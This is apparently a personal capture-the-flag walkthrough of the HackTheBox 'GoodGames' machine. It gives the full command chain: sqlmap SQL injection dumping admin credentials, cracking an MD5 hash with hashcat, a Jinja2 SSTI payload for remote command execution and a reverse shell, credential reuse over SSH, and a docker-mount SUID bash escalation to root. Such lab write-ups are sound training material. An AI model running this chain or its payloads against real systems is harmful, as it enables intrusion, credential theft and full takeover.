 # NMAP 
```shell 
nmap -sC -sV -oA nmap/gg $IP --min-rate=1000 -T5

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-26 08:31 CDT
Nmap scan report for 10.129.231.152
Host is up (0.15s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.51
|_http-title: GoodGames | Community and Store
Service Info: Host: goodgames.htb

```

# PORTS 
80 -> Possible SQL Injection on login/registration form


> executed sqlmap to enumerate db
```
sqlmap -a -u http://goodgames.htb --cookie "<>" --forms -crawl=2
```

> -a enumerate all
> -u url
> --cookie to set authentication tokens
> --forms enumerate all forms 

> The enumeration took so long, I tried a new approach, first I enumerated all databases, I downloaded the request from burp
> to specify injectable form

`sqlmap -r form.req --dbs`

> database-> `main`

`sqlmap -r form.req -D main --tables`

> tables -> user

`sqlmap -r form.req -D main -T user --dump`

> found admin credentials

```
username: admin@goodgames.htb
password: 2b22337f218b2d82dfc3b6f77e7cb8ec
```

> the password was hashed using md5, I used hashcat to crack the password

```shell
hashcat -m 0 -a 0 hash.txt rockyou
# after the first command is done
hashcat -m 0 -a 0 hash.txt rockyou --show
```

>password: superadministrator
>after logging in, the site redirects to a subdomain on where I used the same credentials and it still works 
>
>**admin:superadministrator**


> Settings page has an edit form that displays user information, it has an SSTI vulnerability 
> 
> [SSTI-HACKTRICKS](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti) 

```python
{{request.application.__globals__.__builtins__.__import__('os').popen('<revshell_command>').read()}}
```

> I used this payload that remotely execute a command to execute a reverse shell 
[SSTI-REVERSE-SHELL](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/)  

```shell
for i in {1..65535}; do (echo > /dev/tcp/172.19.0.2/$i) >/dev/null 2>&1 && echo $i is open; done
```
>executed a port scanner to check for other machines running in the docker network/outside the network

> I got stuck and had to look at the official writeup, found out that 172.19.0.1 is the main machine that hosts the docker 
> 
> ssh'd on to the machine using the credentials augustus:superadministrator

`ssh augustus@172.19.0.1`
`password: superadministrator`

> got a shell access, had to look at the writeup again as I was stuck escalating privileges
> 
> since the directory of the augustus is mounted in the docker machine and the user that we have on the docker machine is root user, we need to move any command on /home/augustus directory and make it a SUID file using the docker machine, for this instance 
> I copied the 'bash' binary to /home/augustus, switched back to docker and changes the permission and owner of the `bash` binary

 ```shell
 cp /bin/bash /home/augustus
 chmod 4755 bash
 chown root:root bash
 # in augustus machine
 ./bash -p
```
 
 